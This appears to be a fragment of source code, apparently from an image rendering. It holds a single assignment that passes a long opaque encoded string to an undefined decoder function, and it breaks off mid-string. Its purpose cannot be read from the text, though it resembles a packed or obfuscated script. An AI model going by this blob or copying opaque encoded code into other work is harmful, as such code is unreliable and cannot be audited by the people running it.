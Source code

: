 s=d(e,"F5?VHpNta<K#.l!qa<a7.=C+H5<..6_iH:t!!p5pN#<H!N?NpaKtl.5t?lN?K?!.?VN<K#!a?.NtKH!N?pN<Ka!.?Na}.5}5Ndah.+GLV!t!la?.5Vp##q5.N5<!<V5HNaKt!??_pHKtl.5NpH<qlq?.5V<N!??Vp.<altl.H5a..fIJH>t!.V?ppaKPl.?aN_a?!55qN.a5lVocH-ar#!,NN.KN!t5aNZt!la?.HaK5l.?<paKp!N5Hpqa5l.y7HSaC#!?pppK#lH?NNN<a!t5.ptNlK?!??KNHK#!.?KN.KV!N?HN<KN!p?.N..5EpH;aE.0tHK5!??.NpH5<l.Z>6H&t!l#?tNtKV!N!l??N?!.??NaKt!a!5pp<aK?!KH#t#.t!NN1al#KJ.?#<!.?Y,HDaX.:PkHUtQqqL5H.a0.;yoV!t#l.5tpaaV!p5aND<.!a?sH5aN.-}&HIqVVHt?K<!!?t&5H!a/.gD/V!<?#H&aHa<N.NqpNpKt!HwVH?K5.5L#Huac.Eq!H/<Hl!5aHK<.!55tN?KK.5{lH:ac.hq!V!<a!.lVHtKa!t??Np<.lH5qH5<a.^iiHvt!!p5pN#<H!N?NpaKtl.5t?lN?K?!t?tN#KN!N?tNaK.!.?#a5.<mAHZa4#!qNpH<qlq5ppH<Nl!C5HNaT.&jbV!KV!p5.N5Kt.?z3Hra .R/CHX<H0-y5H#am.Zs4V!tHlt5tHt<a!#?tppK?!#85pia3.i_xV!KKlp?NHpK5#qqlN#aKl<LHHKKplpX<HBan.59aHwae.oq!VNK?!5?tpaK5!t{5Hlas. *uV!t!la?.5VKt!a?tN?Kpl.5Hpqa5.p_dHfa/#!Wtp.KrlaZ5HqaJ._s1<N!?V?pt<5!N5ttaaK..?!p?#V!?Vt:5H#a+.zG,V!tq!?5KpK<altlVV.K5<HR5HVaQ.Lv2#Vqp??^5Hpav.EJcV!<KlH?Xpaa5.aOWH6aP#!qtp.KNlN??Np<t.5y#HUaR.Wq!HN<H!<5aVNK?!55<p.<K.5^<H(an.Gq!V!<a!.q.N5KV!a?tH5<a.3u+H=t!#l??p.K5<V?tp#<a<Vqtp.KNlN??Np<t<V?NpaKp!<5aNpa?.xXWHxa/.IgWH-an.55tHYae.8q!HNK.!N?tpaK><Vq!paK.<V?qHaK5l.?<paKp!N5HpqKq.5(KHia7.Tq!VH<tltqpNaKt!t??N5a5.K8eHAa^#!qaN5Ktla?p5Vt!la?.H5aa.=QfH-t!##?tNtKV#K5aNta5.#=wH4a(#!I<paKpl.5<N.pV#!5aN.a5.augH}a1#!&epH<!la0tpH<p.?_0HyaS.X%1?s!qx( 5Naau.UP7V!<#!t?tNVKNKl!???<tl.?ppa<N!t!Dpq<.!55!?5K5la?t??NHKN!H?<N#K#!<??<!la?.?uNpKa!tH5at.J(0H4!N?qt?Kp!5?VNaH5<..{CwHvt!!p5pN#<H!N?NpaKtl.5t?lN?K?!K?HNVK<!a?VN#KH!K?NNtK#!a?Ka5.p3-Hsa-#!q.pNK?!5i5H#a}.146V!<q!?5HptKN!t?pp.K5lKD5H7a:.164H5Ka.m;IH1t!.t5#p.KN<V5<p.<qlalVNK<H!NlVNVKp!??tpa<N!t5aptpV!K5.Nt<#<Vw-N?K?!5dNpa<N<V;<?Na5.K7AHBam#!q.N5Kt!p??Ht<a!#?tH5ap.:w,H>t!#.?5p.Kt.5s<H2aj.Dq!NtK?!N?tNp<.!55KH5aK.*CQHet!#.?5NtKp!?q.pNK?!5{5paa:.9Q>V!<t!p5HpKK?!5?VNa<q!N5a5VKq.a?5p.K<la?pNN<Hlq?qH5al. AyHUt!#.?5NtKp!?qaN5<Hlp5qpa<t.5+aHJa7.bq!VK<a!tlVV!<a!.Z5HVa .Y^}V!<?#Ko5p!ak.TR3V!a.!??a5V<H!p5a5V<q!?5KpK<altlVp.K5<V5HNNpVlHlVNV<qlH?.paKp.5{lHwaX.%q!Vt<.!N5NN?KpltlVVq<.!55!H5aH.>+WHr!?V<tHKpa5.NMIHva8#!q.Ny<HlK5aH5aH.^_2H7t!#!5aN.a55N0IH*ai#!5#NtKt!V?N?lN?K??ppHKKK55Kp.Ktl#?appKa!N5aNp<N!??5Nt<a!5?t?5<N!??O??aNlN?pp.KV!tqpNpK<K?qqp.<p!p5HNpK..??pp.K?!5!?Np<al<?N??<#la5HptKNK??=pH<.!5!?Vq<.lp?ppHKp!.I?Np<.!??5H5aH.A2^H-qHV<t Kpa5.pEiHZaQ#!{5pHKilad5H<aj.oMmV!tKla?t5Vt!la?.5Ha5.H6JH-aO?VNaK5q?.51aHPa(.^q!Vt<al<5HNa<q!t*5H<a_.wo,V!tHlt5tVq<Hlp5apqa?.L)vHgaw.9*0HL.y.55KHjaz.Mq!HZK?!??5HN<alN5?HNKt!p5.N5<K!Nq#p.<tlt5aN5tH!t?tNpa5.ljOHPa%#!qNN?K5l<5.pKt<!?5qpt<a!p_5H!ag.9(DV!atla?#Ntttl.?NpHKV!V5apHKp.555HXad.Uq!H7<Hl!5aH5K?!t5.p<<.lN5HNt<.!??5H5aK.i0;H9t!l!5aN.<t!p5HpKK?!5z;B5a_.6(1p?!l.88(Hn<<.YnDHoaNlVf}HLai.Hz7H5ah.5>)HH.q.+oBH;aH.G25HXaH0qJ3H}axq0/yH5aM.OptHZa+.EBdHoa3.6kuaHaS.5&AH2a6.2-7H_aH.92TH4aw.n{5HxKB_5g7HbaR.%mTH<aRl?NaH9a5.W?5H aA.*5?Hlav.?=3p<ai.>1)HN!N.swVHBas.GY5Hra5.CsdKpab._xoH5a,.7ksH_Kl.GL?HPa?.+A5H_<?l#EwH?a9q!o7Hua;l?zaH_aV.Oe#Hba6._?gppaj.V/rHVa/l#4wp?<5.dXHHmat.+/*H6Kn.!h^HHac.H3WNKael?vaH3ap.Ek#H9am.U?Ra5aX.p/CHparW5Jcp?l?.+nNH,a#.JMrHEKCl#EgHNaf.N*>tKaG.&%.Hzat.SM*Hiaz.{5?H#aX.aSDN5a(.0D4p?aV.AW<HRKa.3TxHm<?lHEMHKa;.<{xH0a,.H)aHUaa.J?5H-a5.-1xalaI..MCHpae.QRhH,lq.8zlHEa#.6bSH=am.q-8H.aQ.?c_H?a}._;KH=at.z;#H=a..91,HNa9.tJBH.a9.#M&HH<N.*4aH-<#.eU5HDaA5VEgHaaG.as H8aB.NNNH%aa.QAKHRa5.D;NHBaf?p7YHma).?6bHzaR.CNpHYa9.D;HH2aP.oxgKpa7.UL_HaaA._0dHy!p.X>oHTaV._6GH:av?p_CHIah.t9&H{a/._NpHRa_._-5HQaw.z*uplaM.<c=HaaO.(+iHA<t.IEKH1ab.Ov6HuaT.HZ^H<a).?n%H?a/.=0VHUaL.W&<HYa7.r=*p<a*.JUyH?a_.+3EHh<W.&R>HxaA.C,RHJaHlp3%H>aOa IfH5aul?VlH+a_.25HHva_.O?AtaaT.RZdH&a;.<&>p?<V.Uc4HI#?.Jo&H8<?.NPGHPa&lH8,H2aU!AP.HLag.Gk6H>.H.>5?p5ag._y2p5aS.XGhH=<#.nu>H0a5.B;;H+<?.HE+Hfa^OpIQHwaZl?VlHkan.Yz.Hfag.9?NtVaG.dxDt.a4.5{>Nqa,.HHqHUah.IV.H=a5.JSHaqa=.Gd=tla+.5sSHy.a._s_H}a5.;QiH^<?qlU9H{a/!lnnHDaxl?N#HCa5.I5.H(az.o?gpKa .5JIH5a1!pb/p?a?.iRVHI#l.:TmHPa2la*rH5a,.VY^H%a^.m{5H%ak.Q;,Hea?.oYdp#a,.EswH5ac.?:3Nnaq.O25HLa:.s;lH=aJ5tEIHVaJ.sJWHtaIqLp.HXaV.+VqH&#H.,V(p.aj.VsdHKaWlpuRt8l..B^VH&<!. W?Hx#o.pB)HVa:WNjJHpabqTp.HDaV.SVpHya?.MVTHqa{.V^EtJay!?8Ltd#N.BgVHY#V.w?#HYa^V#*MH5a_.VG_H?ak.?t!Hka?.)_HHBad.Ix?#!am.V+BHaaX.gR;Ny<H.,fHHua(.xHaH+a}.a PHNaE.s^=HHaYq%-aH1aN.dVqHR<K.hV7H?a1.N^gpNaSqa^rtOaa.0JNHk##.ZUqHP#>.qmOHNa&laURp?as.)5NHraH.j NH&a5.Y5?tla}.H;(ttaA.: Mt7#?.{IHH}#..yH<HJ<?.qGcHHa qt;kHZao.g5NHLap.xzVHka&.0>jpta=.pYfH5a=.?jjHNaa.PypH>lq.hZ5H/aE.0*HaqaS.G>-<qa:.5=uHH.q.0zPHo!z.ST5Hm<?!.y Hpa&!!=4H1aDls5qHxaH.x5qH/ap./2?#!a:.H mHNa(.PWCHN!N.D=pHwa?.;b5HZa5.Y,fKpa2.{{CHUa7.X0DHN!N.>-NH0at.gJ5HUa5.r3eKpa2.zwnH%ay.&&sp?Kq._/tHW#t.nYZH2Ks.KQ-Hta9.tU-pqasl?5lHnaa.uVtHDaL.C?xphaG.a(xHaaUq.EGHNap.eDtHwq5.^*5H_aa.+(Haqai.rIc#5ax.5jhH7.l.f>tHDaH.r1_Hiae.VG8HtaW.53jH5a .8-?H3at.3*pHCaf.9o&HKa8.tYiH5a1.57oHH<z.7 UHI?!.m*5HfKJ.KmmHta .5e&Ntag.M?#HPa<.i4AHdaV.fVxpNaL.</rtqaBq.)4tY<t.Uy<H4K..v+NHx#3.H_WH<aX.H;+ppaE.R55Hgat.f;<HQa?.Y?bHaa>.a ,HtaQlV}3H^a5.mBKHvaB.3kHH6#*5.k>HKa+qq1>NHaZq)+aHvaK.XH?HOK!.(V-tNad.KYyatag.?zXH?q!.PI#Hoa..DRBHG<SlV16HKa;l{UvH#aL.25<Hxaa.onKHPa5.M?8p?ak.aL+Htac!Vo_H8aq.iuKHmaM.PY?Hc#0.ldfHKadqqz1NNa/.NNNHXa#.n^5H1a5.WfHHhae?p,-H+a,.?EfHAa_.8NpHTa_.I(HH-aO.i:_Kpao.23>Hpa7.oBdHP!p.r1zH%aN.P)3Hk<OlV,DHKa3l4xWH#ay.(5#HGaa.T;KH&a5.=?Ip#a4.aL6H5ak!t81H%<K.OjKHea_.R=VH%#BlayCHKa+qqS0ajaxq(p.HraK.X?.HJaN.+Vgp<aD.KisHHa+lpsRHhq#.iTaHGaK.,o?H%<??tncH<a}!<s_HJabl?55H8aK.m?!H/ai.e5?H?a=.#fMHaa+.}PYNja<.T{.H2aa.(?VH:arl<vYH!aY.C6(H?amqo5VH)a!.;VqH{aV.=/NKNa .qvrH<ai.5n8H?aD.RNpHyaO.QL<H3aQ.;gTKpaz.6xBHoa-.G_Mpb<V._D!HW<_.)4qH^aYl5-zH.aM.!SMH5ax!Xu.H:a..48aH2KV.bW>H5ax.!A=HTa7.?+TtOal.EX!HM#q.*VNH_aN?N_/HqaG.#UfH5a{.?7,H+!p.Cx0H1a<.2}IHSaX?p fHXa7.7